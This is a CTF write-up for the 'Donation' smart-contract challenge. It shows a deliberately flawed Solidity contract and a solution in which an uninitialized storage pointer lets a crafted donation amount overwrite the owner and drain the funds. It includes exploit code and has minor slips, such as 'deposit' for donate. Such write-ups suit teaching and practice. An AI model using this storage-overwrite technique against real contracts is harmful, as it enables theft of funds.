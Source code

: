 # Donation
<sup>MATH: 750 POINTS</sup>

A candidate you don’t like is accepting campaign contributions via the smart contract below.

To complete this challenge, steal the candidate’s ether.

```solidity
pragma solidity ^0.4.21;

contract DonationChallenge {
    struct Donation {
        uint256 timestamp;
        uint256 etherAmount;
    }
    Donation[] public donations;

    address public owner;

    function DonationChallenge() public payable {
        require(msg.value == 1 ether);
        
        owner = msg.sender;
    }
    
    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function donate(uint256 etherAmount) public payable {
        // amount is in ether, but msg.value is in wei
        uint256 scale = 10**18 * 1 ether;
        require(msg.value == etherAmount / scale);

        Donation donation;
        donation.timestamp = now;
        donation.etherAmount = etherAmount;

        donations.push(donation);
    }

    function withdraw() public {
        require(msg.sender == owner);
        
        msg.sender.transfer(address(this).balance);
    }
}
```

Enjoy this inspirational music while you work: [Space Force](https://www.youtube.com/watch?v=_AUXpnB065o).


Solution:

At a first glance we notice that the `scale` variable is incorrect: 1 ether is already 10 ** 18 wei, so the scale is actually 10 ** 36.
While compiling on Remix few warnings pops out:

```
> contracts/CaptureTheEthereum.sol:27:9: Warning: Variable is declared as a storage pointer. Use an explicit "storage" keyword to silence this warning.
Donation donation;
^---------------^
> contracts/CaptureTheEthereum.sol:27:9: Warning: Uninitialized storage pointer. Did you mean '<type> memory donation'?
Donation donation;
^---------------^
```

[Here](https://stackoverflow.com/a/33839164/6650427)'s a good explaination of what's going on. Basically, not declaring `Donation donation;` as an in-memory variable with the `memory` keyword the brand new `duration` struct is created as a `storage` structure and it can modify the storage variables.
In our case storage variables are:

0. donations
1. owner

In this particular case we can manipulate the `etherAmount` to overwrite the `owner` variable.
What we need to do now is to find the correct value to send with our address.

```solidity
contract Exploit {
    address public myAddr = 0xaB75624dB2FDC51bFc0b4EB56902811a0Aa844b3;
    uint public myIntAddr = uint(myAddr);  // 978855172442788439174640874344464868650529604787
    uint256 public amountToSend = myIntAddr / (10 ** 36);  // 978855172442
}
```

call deposit with myAddr sending `amountToSend`, then withdraw aaaand is over.
